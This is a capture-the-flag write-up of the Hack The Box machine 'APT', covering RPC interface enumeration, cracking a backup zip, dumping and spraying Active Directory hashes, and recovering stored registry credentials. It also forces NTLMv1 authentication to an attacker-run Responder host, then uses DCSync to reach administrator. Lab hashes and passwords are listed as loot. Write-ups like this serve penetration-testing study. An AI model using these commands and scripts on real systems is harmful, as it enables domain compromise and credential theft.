



## Loot

---

### Credentials

- henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb
- henry.vinson_adm:G1#Ny5@2dvht

## Reconnaissance

---

### Nmap IPv4

```bash
→ root@iamf «apt» «10.10.14.72» 
$ nmap -sC -sV -oA nmap/initial-apt '10.10.10.213' -v
# Nmap 7.80 scan initiated Wed Apr 14 18:48:43 2021 as: nmap -sC -sV -oA nmap/initial-apt -v 10.10.10.213
Nmap scan report for 10.10.10.213
Host is up (0.19s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Gigantic Hosting | Home
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### TCP 80 - Website

Home page.


Input vectors on `https://10.13.38.16/contact-post.html` doesn't seems vulnerable.


Example request:

```
POST https://10.13.38.16/contact-post.html HTTP/1.1
Host: 10.13.38.16
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.10.213/support.html
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```


#### Gobuster

It just repeating

```
→ root@iamf «apt» «10.10.14.72» 
$ gobuster dir -u http://10.10.10.213/ -x html,txt,bak -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt
... <snip> ...
/images               (Status: 301) [Size: 150] [--> http://10.10.10.213/images/]
/js                   (Status: 301) [Size: 146] [--> http://10.10.10.213/js/]    
/css                  (Status: 301) [Size: 147] [--> http://10.10.10.213/css/]   
/news.html            (Status: 200) [Size: 5528]                                 
/about.html           (Status: 200) [Size: 9386]                                 
/support.html         (Status: 200) [Size: 6326]                                 
/Images               (Status: 301) [Size: 150] [--> http://10.10.10.213/Images/]
/services.html        (Status: 200) [Size: 10592]                                
/index.html           (Status: 200) [Size: 14879]                                
/clients.html         (Status: 200) [Size: 12146]                                
... <snip> ...
```

### TCP 135 - MSRPC

>  References used:
>
> - https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc
> - https://airbus-cyber-security.com/the-oxid-resolver-part-1-remote-enumeration-of-network-interfaces-without-any-authentication/

#### Identify exposed RPC services - rpcdump.py

`rpcmap.py` is part of Impacket tools collection.

```bash
→ root@iamf «rpcmap» «10.10.14.72» 
$ rpcmap.py -debug 'ncacn_ip_tcp:10.10.10.213' | grep 'Protocol' -A2| grep -v 'N/A' | tee discover-dcerpce-endpoint-mapper
Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 000001A0-0000-0000-C000-000000000046 v0.0
--
Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 4D9F4AB8-7D1C-11CF-861E-0020AF6E7C57 v0.0
--
Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 99FCFEC4-5260-101B-BBCB-00AA0021347A v0.0
--
Protocol: [MS-RPCE]: Remote Management Interface
Provider: rpcrt4.dll
UUID: AFA8BD80-7D8A-11C9-BEF4-08002B102989 v1.0
```

##### UUID: 000001A0-0000-0000-C000-000000000046

###### Purpose

From: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/c25391af-f59e-40da-885e-cc84076673e4

| Name                    | GUID                                   | Purpose                                    |
| ----------------------- | -------------------------------------- | ------------------------------------------ |
| IID_IRemoteSCMActivator | {000001A0-0000-0000-C000-000000000046} | RPC interface UUID for IRemoteSCMActivator |

###### Methods:

> RemoteSCMActivator is another remote activation interface of the DCOM Remote Protocol.



##### UUID: 4D9F4AB8-7D1C-11CF-861E-0020AF6E7C57

###### Purpose

From: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/c25391af-f59e-40da-885e-cc84076673e4

| Name            | GUID                                   | Purpose                            |
| --------------- | -------------------------------------- | ---------------------------------- |
| IID_IActivation | {4d9f4ab8-7d1c-11cf-861e-0020af6e7c57} | RPC interface UUID for IActivation |

> IActivation is the DCOM Remote Protocol remote activation interface supported on all versions of the DCOM Remote Protocol

###### Methods in RPC Opnum Order



##### UUID: 99FCFEC4-5260-101B-BBCB-00AA0021347A

###### Purpose

From black hat windows security 2004:



From https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/c25391af-f59e-40da-885e-cc84076673e4:

| Name                | GUID                                   | Purpose                                |
| ------------------- | -------------------------------------- | -------------------------------------- |
| IID_IObjectExporter | {99fcfec4-5260-101b-bbcb-00aa0021347a} | RPC interface UUID for IObjectExporter |

> IObjectExporter is the interface used for OXID resolution, pinging, and **server aliveness** tests. All object resolvers MUST support the IObjectExporter interface

###### Methods


Based on this article: https://airbus-cyber-security.com/the-oxid-resolver-part-1-remote-enumeration-of-network-interfaces-without-any-authentication/.

###### Abuse 

[Enumeration on network interface](#remote-enumeration-of-network-interfaces) is possible by abusing ServerAlive2 method in IOXIDResolver

##### UUID: AFA8BD80-7D8A-11C9-BEF4-08002B102989

From blackhat windows security 2004 (https://www.blackhat.com/presentations/win-usa-04/bh-win-04-seki-up2.pdf) :


From security stack exchange (https://security.stackexchange.com/questions/93542/enumeration-and-ms-dcerpc):

> afa8bd80-7d8a-11c9-bef4-08002b102989 -- This is the RMI, or remote management interface that allows all of this enumeration to occur without authentication. Generally fixed in XP SP2 but the machine you are targeting behaves more like Windows 2000 or Server 2003.

#### Identify accessible methods

```bash
→ root@iamf «rpc-enum» «10.10.14.72»
$ rpcdump.py -brute-opnums -opnum-max 5 'ncacn_ip:tcp:10.10.10.213'

...<snip>...
Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 99FCFEC4-5260-101B-BBCB-00AA0021347A v0.0
Opnum 0: rpc_x_bad_stub_data
Opnum 1: rpc_x_bad_stub_data
Opnum 2: rpc_x_bad_stub_data
Opnum 3: success
Opnum 4: rpc_x_bad_stub_data
Opnum 5: success
```


#### Remote Enumeration of Network Interfaces

PoC is available on: https://airbus-cyber-security.com/the-oxid-resolver-part-1-remote-enumeration-of-network-interfaces-without-any-authentication/

I've added `()` to print statement to get it work.

```python
#!/usr/bin/python

import sys, getopt

from impacket.dcerpc.v5 import transport
from impacket.dcerpc.v5.rpcrt import RPC_C_AUTHN_LEVEL_NONE
from impacket.dcerpc.v5.dcomrt import IObjectExporter

def main(argv):

    try:
        opts, args = getopt.getopt(argv,"ht:",["target="])
    except getopt.GetoptError:
        print('IOXIDResolver.py -t <target>')
        sys.exit(2)

    target_ip = "192.168.1.1"

    for opt, arg in opts:
        if opt == '-h':
            print('IOXIDResolver.py -t <target>')
            sys.exit()
        elif opt in ("-t", "--target"):
            target_ip = arg

    authLevel = RPC_C_AUTHN_LEVEL_NONE

    stringBinding = r'ncacn_ip_tcp:%s' % target_ip
    rpctransport = transport.DCERPCTransportFactory(stringBinding)

    portmap = rpctransport.get_dce_rpc()
    portmap.set_auth_level(authLevel)
    portmap.connect()

    objExporter = IObjectExporter(portmap)
    bindings = objExporter.ServerAlive2()

    print("[*] Retrieving network interface of " + target_ip)

    for binding in bindings:
        NetworkAddr = binding['aNetworkAddr']
        print("Address: " + NetworkAddr)

if __name__ == "__main__":
   main(sys.argv[1:])
```

APT has IPv6 on one of its interfaces 

```bash
→ root@iamf «rpc-enum» «10.10.14.72» 
$ ./IOXIDResolver.py -t '10.10.10.213'
[*] Retrieving network interface of 10.10.10.213
Address: apt
Address: 10.10.10.213
Address: dead:beef::b885:d62a:d679:573f
Address: dead:beef::89df:c1d4:6aaf:67ce
```

### Nmap -  Ipv6

It dies if the scan rate is too high

```bash
→ root@iamf «apt» «10.10.14.72» 
$ nmap -6 -sC -sV -oA nmap/initial-apt-ipv6 'dead:beef::b885:d62a:d679:573f' -v
[1]    5956 segmentation fault  nmap -6 -sC -sV -oA nmap/initial-apt-ipv6 'dead:beef::b885:d62a:d679:573f' -v
```

Lowering the scan rate.

```bash
→ root@iamf «apt» «10.10.14.72» 
$ nmap -6 --min-rate=1000 -sC -sV -oA nmap/initial-apt-ipv6 'dead:beef::b885:d62a:d679:573f' -v
PORT    STATE SERVICE      VERSION
53/tcp  open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Gigantic Hosting | Home
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-04-15 00:36:03Z)
135/tcp open  msrpc        Microsoft Windows RPC
389/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Issuer: commonName=apt.htb.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-24T07:07:18
| Not valid after:  2050-09-24T07:17:18
| MD5:   c743 dd92 e928 50b0 aa86 6f80 1b04 4d22
|_SHA-1: f677 c290 98c0 2ac5 8575 7060 683d cdbc 5f86 5d45
|_ssl-date: 2021-04-15T00:38:57+00:00; -1s from scanner time.
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp open  kpasswd5?
593/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Issuer: commonName=apt.htb.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-24T07:07:18
| Not valid after:  2050-09-24T07:17:18
| MD5:   c743 dd92 e928 50b0 aa86 6f80 1b04 4d22
|_SHA-1: f677 c290 98c0 2ac5 8575 7060 683d cdbc 5f86 5d45
|_ssl-date: 2021-04-15T00:38:57+00:00; -1s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/14%Time=60778A78%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -12m00s, deviation: 26m48s, median: -1s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: apt
|   NetBIOS computer name: APT\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: apt.htb.local
|_  System time: 2021-04-15T01:38:41+01:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-04-15T00:38:39
|_  start_date: 2021-04-14T16:50:06
```

- Domain name: `htb.local`
- FQDN: `apt.htb.local`
- Host: Windows Server 2016 Standard 14393

### TCP 445 - SMB (on IPv6)

```
→ root@iamf «apt» «10.10.14.72» 
$ smbclient -N -L //apt 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        backup          Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
apt is an IPv6 address -- no workgroup available
→ root@iamf «apt» «10.10.14.72» 
$ smbclient -N //apt/backup
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Sep 24 03:30:52 2020
  ..                                  D        0  Thu Sep 24 03:30:52 2020
  backup.zip                          A 10650961  Thu Sep 24 03:30:32 2020

                10357247 blocks of size 4096. 6964173 blocks available
smb: \> get backup.zip 

getting file \backup.zip of size 10650961 as backup.zip (502.9 KiloBytes/sec) (average 502.9 KiloBytes/sec)

```

#### Cracking Backup.zip

```bash
→ root@iamf «loot» «10.10.14.72» 
$ unzip backup.zip 
Archive:  backup.zip
   creating: Active Directory/
[backup.zip] Active Directory/ntds.dit password: 
```

zip2john:

```bash
→ root@iamf «loot» «10.10.14.72» 
$ zip2john backup.zip > backup.zip.hash
→ root@iamf «loot» «10.10.14.72» 
$ cat backup.zip.hash 
backup.zip:$pkzip2$3*1*1*0*8*24*9beb*9ac6*0f135e8d5f02f852643d295a889cbbda196562ad42425146224a8804421ca88f999017ed*1*0*8*24*acd0*9cca*0949e46299de5eb626c75d63d010773c62b27497d104ef3e2719e225fbde9d53791e11a5*2*0*156*4000*2a393785*81733d*37*8*156*2a39*9cca*0325586c0d2792d98131a49d1607f8a2215e39d59be74062d0151084083c542ee61c530e78fa74906f6287a612b18c788879a5513f1542e49e2ac5cf2314bcad6eff77290b36e47a6e93bf08027f4c9dac4249e208a84b1618d33f6a54bb8b3f5108b9e74bc538be0f9950f7ab397554c87557124edc8ef825c34e1a4c1d138fe362348d3244d05a45ee60eb7bba717877e1e1184a728ed076150f754437d666a2cd058852f60b13be4c55473cfbe434df6dad9aef0bf3d8058de7cc1511d94b99bd1d9733b0617de64cc54fc7b525558bc0777d0b52b4ba0a08ccbb378a220aaa04df8a930005e1ff856125067443a98883eadf8225526f33d0edd551610612eae0558a87de2491008ecf6acf036e322d4793a2fda95d356e6d7197dcd4f5f0d21db1972f57e4f1543c44c0b9b0abe1192e8395cd3c2ed4abec690fdbdff04d5bb6ad12e158b6a61d184382fbf3052e7fcb6235a996*$/pkzip2$::backup.zip:Active Directory/ntds.jfm, registry/SECURITY, Active Directory/ntds.dit:backup.zip
```

Cracking on Windows.

```
C:\tools\john\run> ./john.exe hashes/backup.zip.hash --wordlist=C:/tools/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyousomuch   (backup.zip)
1g 0:00:00:00 DONE (2021-04-15 08:29) 35.71g/s 585142p/s 585142c/s 585142C/s 123456..christal
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now the backup file can be extracted

```
$ unzip backup.zip 
Archive:  backup.zip
   creating: Active Directory/
[backup.zip] Active Directory/ntds.dit password: iloveyousomuch
→ root@iamf «loot» «10.10.14.72» 
$ tree
.
├── Active Directory
│   ├── ntds.dit
│   └── ntds.jfm
├── backup.zip
├── backup.zip.hash
└── registry
    ├── SECURITY
    └── SYSTEM
```

#### Dump AD hash

Dump active directory hash with `secretsdump.py`

```bash
→ root@iamf «loot» «10.10.14.72» 
$ secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL > ad_hashes
```

### User enumeration 

User enumeration via pre-auth using kerbrute is preferred before spraying these hashes because it might cause an account lockdown.

Before that, I'll grab the user list from `ad_hashes`

```bash
→ root@iamf «loot» «10.10.14.72» 
$ cat ad_hashes | grep 'aad3b435b51404eeaad3b435b51404ee' | cut -d : -f1 > ../users.list
```

And then the NT Hashes, and run `kerbrute` after.

```bash
→ root@iamf «loot» «10.10.14.72» 
$ cat ad_hashes | grep 'aad3b435b51404eeaad3b435b51404ee' | cut -d : -f4 > ../userhash.list
```

After some time, it returns 3 valid user.

```
→ root@iamf «apt» «10.10.14.72» 
$ kerbrute userenum  --dc apt --domain htb.local users.list
... <snip> ...
2021/04/14 22:02:35 >  Using KDC(s):
2021/04/14 22:02:35 >   apt:88

2021/04/14 22:03:12 >  [+] VALID USERNAME:       APT$@htb.local
2021/04/14 22:03:12 >  [+] VALID USERNAME:       Administrator@htb.local
2021/04/14 22:07:31 >  [+] VALID USERNAME:       henry.vinson@htb.local
2021/04/14 22:15:52 >  Done! Tested 2001 usernames (3 valid) in 796.320 second
```

`APT$` is not a real user, I can say it is just representation for authentication purpose in the domain. But if I have a valid NT hash of this account, it can be used for DCSync attack, that would be very useful.

Because of that, for now I'll keep `administrator` and `henry.vinson` in list of valid users.

### Brute Force

`kerbrute` doesn't support pass the hash, instead there's a python version of kerbrute.

```bash
→ root@iamf «apt» «10.10.14.72» 
$ git clone https://github.com/3gstudent/pyKerbrute.git
```

By default it only support for a single hash. I've modified it to work with hash list.

```python
if __name__ == '__main__':
        kdc_a = sys.argv[1] # apt
        user_realm = sys.argv[2].upper() # htb.local
        user_name = sys.argv[3] # henry.vinson, administrator
        hashes = open(sys.argv[4], 'r').readlines() # aad3...hashes
        print('[*] DomainControlerAddr: %s'%(kdc_a))
        print('[*] DomainName:          %s'%(user_realm))
        
        for user_hash in hashes:
        	sys.stdout.write('\r[*] Trying hash: %s'%(user_hash)) # to make sure it checks every hash in list
        	user_key = (RC4_HMAC, user_hash.strip('\r\n').decode('hex'))
        	passwordspray_tcp(user_realm, user_name, user_key, kdc_a, user_hash)

        
```

After a few minutes, it returns a valid hash that works on `henry.vinson`

```bash
→ root@iamf «pyKerbrute» «10.10.14.72» 
$ wc -c ../userhash.list 
66001 userhash.list
→ root@iamf «pyKerbrute» «10.10.14.72» git:(master) ✗ 
$ python ADPwdSpray.py apt htb.local 'henry.vinson' ../userhash.list
... <snip> ...
[*] Trying hash: e53d87d42adaa3ca32bdb34a876cbffb
[+] Valid Login: henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb

[*] Trying hash: f7527e7f4315309e05f6e54eb3bf07d6
... <snip> ...
```

The actual hash belongs to

```bash
→ root@iamf «apt» «10.10.14.72» 
$ cat loot/ad_hashes | grep 'e53d87d42adaa3ca32bdb34a876cbffb'                                               
aine.stafford:4679:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
```


## Foothold

### Access - henry.vinson

There are some tools like `CrackMapExec` that doesn't support ipv6, hence a port forwarding or a relay is needed.

Option 1: use socat

```
→ root@iamf «apt» «10.10.14.72» 
$ socat tcp-listen:445,fork tcp6:apt:445
```

Option 2: use ssh

```
→ root@iamf «apt» «10.10.14.72» 
$ ssh -L 445:apt:445 root@localhost -N
```

These tools should work now.

```
→ root@iamf «apt» «10.10.14.72» 
$ crackmapexec smb localhost -u henry.vinson -H e53d87d42adaa3ca32bdb34a876cbffb 
SMB         127.0.0.1       445    APT              [*] Windows Server 2016 Standard 14393 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         127.0.0.1       445    APT              [+] htb.local\henry.vinson e53d87d42adaa3ca32bdb34a876cbffb 
```


#### Registry enumeration

This user cannot establish a session on WinRM.

```
→ root@iamf «apt» «10.10.14.72» 
$ evil-winrm -i apt -u henry.vinson -H e53d87d42adaa3ca32bdb34a876cbffb

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

`reg.py` from Impacket can obtain user registry

```bash
→ root@iamf «apt» «10.10.14.72» 
$ reg.py htb.local/henry.vinson@apt -hashes 'e53d87d42adaa3ca32bdb34a876cbffb:e53d87d42adaa3ca32bdb34a876cbffb' query -keyName HKU
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
HKU
HKU\Console
HKU\Control Panel
HKU\Environment
HKU\Keyboard Layout
HKU\Network
HKU\Software
HKU\System
HKU\Volatile Environment
```

```bash
→ root@iamf «apt» «10.10.14.72» 
$ reg.py htb.local/henry.vinson@apt -hashes 'e53d87d42adaa3ca32bdb34a876cbffb:e53d87d42adaa3ca32bdb34a876cbffb' query -keyName HKU\\Software   
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
HKU\Software
HKU\Software\GiganticHostingManagementSystem
HKU\Software\Microsoft
HKU\Software\Policies
HKU\Software\RegisteredApplications
HKU\Software\VMware, Inc.
HKU\Software\Wow6432Node
HKU\Software\Classes
```

```bash
→ root@iamf «apt» «10.10.14.72» 
$ reg.py htb.local/henry.vinson@apt -hashes 'e53d87d42adaa3ca32bdb34a876cbffb:e53d87d42adaa3ca32bdb34a876cbffb' query -keyName HKU\\Software\\GiganticHostingManagementSystem
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
HKU\Software\GiganticHostingManagementSystem
        UserName        REG_SZ   henry.vinson_adm
        PassWord        REG_SZ   G1#Ny5@2dvht

```

### Shell as henry.vinson_adm

The creds can be used to login remotely 

```bash
→ root@iamf «apt» «10.10.14.72» 
$ evil-winrm -i apt -u henry.vinson_adm -p 'G1#Ny5@2dvht'                  

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> 
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Desktop> type user.txt
745212a817f60f27befd...<snip>...
```

#### Internal enumeration

User enum

```text
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Desktop> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
henry.vinson             henry.vinson_adm         krbtgt
```

File enum

```powershell
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Desktop> gci -Path C:\Users -filter *.txt -Recurse -ErrorAction SilentlyContinue -Force
... <snip>...
    Directory: C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/10/2020  10:58 AM            458 ConsoleHost_history.txt
```

`ConsoleHost_history.txt`:

```powershell
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Desktop> type "C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
```


From https://kb.iu.edu/d/atvn, 

> **Send NTLM response only:** When level 2 is implemented across a domain, clients begin using NTLMv1 and can use NTLMv2 if the servers on the network support it. Domain controllers will again continue to accept any of the three protocols.

With `lmcompatibilitylevel = 2`, it means the authentication process by default is using NTLMv1. NTLMv1 challenges has 8 bytes long. There's a site called https://crack.sh that has rainbow tables for a specific challenge "1122334455667788".

So if an attacker can force a client to make a request using NTLMv1 to a server that attacker controls, the attacker may set the challenge to "1122334455667788", and when the server receives the response from that challenge, the attacker can perform an online cracking to extract user's NT hash (derived from password) from that response.

>  Note:
>
> - NetNTLM is a authentication protocol
> - NetNTLM hash != NT hash
> - NetNTLM hash contains NT hash


## Privilege Escalation

---

### Shell as administrator

#### Stealing NTLMv1 hash via RPC

Broken impacket dependencies, unable to perform this.

#### Stealing NTLMv1 hash via MpCmdRun

```
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2102.4-0\MpCmdRun.exe" -Scan -ScanType 3 -File \\10.10.14.72\notexist
Scan starting...
CmdTool: Failed with hr = 0x80508023. Check C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log for more information
```


```
→ root@iamf «~» «10.10.14.72» 
$ responder -I tun0 --lm                                 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3.4.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [OFF]
    FTP server                 [OFF]
    IMAP server                [OFF]
    POP3 server                [OFF]
    SMTP server                [OFF]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [ON]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.72]
    Challenge set              [1122334455667788]
    Don't Respond To Names     ['ISATAP']


[+] Listening for events...
[SMB] NTLMv1 Client   : 10.10.10.213
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788
```

```
→ root@iamf «~» «10.10.14.72» 
$ secretsdump.py 'htb.local/APT$@apt' -hashes :d167c3238864b12f5f82feae86a7f798 -just-dc-user administrator
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
Administrator:des-cbc-md5:0816d9d052239b8a
[*] Cleaning up...
```

```
→ root@iamf «~» «10.10.14.72» 
$ evil-winrm -i apt -u administrator -H c370bddf384a691d811ff3495e8a72e2

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
